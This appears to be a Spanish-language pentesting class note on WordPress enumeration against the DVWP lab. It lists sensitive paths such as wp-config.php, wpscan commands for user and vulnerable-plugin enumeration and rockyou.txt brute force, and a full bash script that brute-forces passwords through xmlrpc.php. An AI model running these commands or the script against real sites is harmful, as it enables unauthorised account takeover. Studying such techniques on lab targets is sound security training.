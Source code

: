# WordPress

Tags: #WordPress #CMS 

## Enumeración de gestores de contenido (CMS) – WordPress

WordPress es un CMS de código abierto muy popular que fue lanzado en 2003. Es utilizado por millones de sitios web en todo el mundo y se destaca por su facilidad de uso y flexibilidad. Con WordPress, los usuarios pueden crear y personalizar sitios web sin necesidad de conocimientos de programación avanzados. Además, cuenta con una amplia variedad de plantillas y plugins que permiten añadir funcionalidades adicionales al sitio.

El proyecto que utilizamos en esta clase para enumerar un WordPress es el siguiente:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Una de las herramientas que utilizamos en esta clase para enumerar este gestor de contenido es **Wpscan**. Wpscan es una herramienta de código abierto que se utiliza para escanear sitios web en busca de vulnerabilidades de seguridad en WordPress.

Con Wpscan, podemos realizar una enumeración completa del sitio web y obtener información detallada sobre la instalación de WordPress, como la versión utilizada, los plugins y temas instalados y los usuarios registrados en el sitio. También nos permite realizar pruebas de fuerza bruta para descubrir contraseñas débiles y vulnerabilidades conocidas en plugins y temas.

Wpscan es una herramienta muy útil para los administradores de sitios web que desean mejorar la seguridad de su sitio WordPress, ya que permite identificar y corregir vulnerabilidades antes de que sean explotadas por atacantes malintencionados. Además, es una herramienta fácil de usar y muy efectiva para identificar posibles debilidades de seguridad en nuestro sitio web.

## Rutas típicas de WordPress en la web 

```python
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-admin/
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Ver si podemos hacer 'directory listing' y ver los plugins existentes
/xmlrpc.php                          # Si esta expuesto, podemos enumerar usuarios 

# Rutas en consola 
wordpress.conf                       # Archivo que nos muestra donde esta configurado el WordPress y se encuentra en la ruta /etc/apache2/sites-enabled/ 
wp-config.php                        # Archivo que dispone de credenciales de acceso a la base de datos, se encuentra en la ruta /var/www/html, a veces esta en la ruta /usr/share/wordpress/
```

## WordPress Enumeración 

```bash 
# Enumeración
1. Buscar usuarios en la pagina Web y validarlos en el 'Panel de Login'
2. Aunque tengamos la utlima version de 'WordPress' mientras tenga 'Plugins' desactualizados, será vulnerable 
3. Buscar 'plugins' en el codigo fuente o usando el comando 'curl'
```

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url <http://URL/> -e u,vp                                          # Enumeracion 

	# e = Enumerar multiples cosas 
	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables

❯ wpscan --url http://URL/ --passwords /usr/share/wordlists/rockyou.txt       # BruteForce

	# passwords = Enumerar passwords

❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive           # Enumeracion de plugins de manera agresiva 
	
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la pagina web y ver si alguno es vulnerable y lo podriamos buscar en Searchsploit

	# \K = Quita la palabra de la izquierda (plugins) 
	# [^/]+ = Muestra hasta la primer barra derecha en la busqueda y quita todo lo de la derecha   
	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

## Abusando de xmlrpc.php

Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los métodos y lo haremos con el código del archivo y ver si existe el siguiente **wp.getUsersBlogs** y después aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml   # Forma de tramitar el archivo por POST

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
# Listamos los métodos en 'xmlrpc.php'

❯ nvim file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```

```bash 
# Creamos un archivo llamado 'xmlrpc_bruteforce.sh' para hacer el ataque 'Brute force' y enumerar 

#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm; exit 1
}

# Ctrl_c
trap ctrl_c INT

tput civis

function createXML(){
	password=$1

	xmlFile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>omar</value></param> 
	<param><value>$password</value></param> 
	</params> 
	</methodCall>
	"""
	echo $xmlFile > file.xml
	response=$(curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
		echo -e "\n[+] La contraseña para el usuario omar es $password"
		echo 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password
done 
```